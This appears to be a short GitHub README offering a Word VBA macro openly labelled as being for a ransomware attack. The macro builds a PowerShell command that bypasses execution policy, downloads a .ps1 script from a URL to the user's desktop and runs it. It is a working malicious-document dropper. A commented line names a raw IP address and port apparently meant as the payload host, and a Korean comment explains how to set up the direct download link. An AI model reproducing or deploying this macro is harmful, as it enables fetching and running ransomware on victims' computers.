 # VBA-Macro-in-Word
Macro for RansomWare Attack

Sub test()
'
' test Macro
'
'
Dim downUrl As String
Dim code1 As String


downUrl = "http://naver.com" 'Filler를 사용해서 다이렉트url을 구현했습니다. Fiddler 이용해서 구현해주세요!
'![image](https://user-images.githubusercontent.com/77016353/119981727-eafa5100-bff8-11eb-8ec7-bee208741a14.png)
Dim downDir As String
downDir = "C:\Users\wjddj\OneDrive\Desktop\test\Y.ps1"

code1 = "cmd /k powershell -WindowStyle normal -ExecutionPolicy BypasS -noprofile (New-Object System.Net.WebClient).DownloadFile('" + downUrl + "', '" + downDir + "'); powershell -WindowStyle normal -ExecutionPolicy BypasS -noprofile -file '" + downDir + "'"

Shell code1, 1

MsgBox (code1)

End Sub

'http://naver.com
'http://101.101.211.160:8080/common/test.do
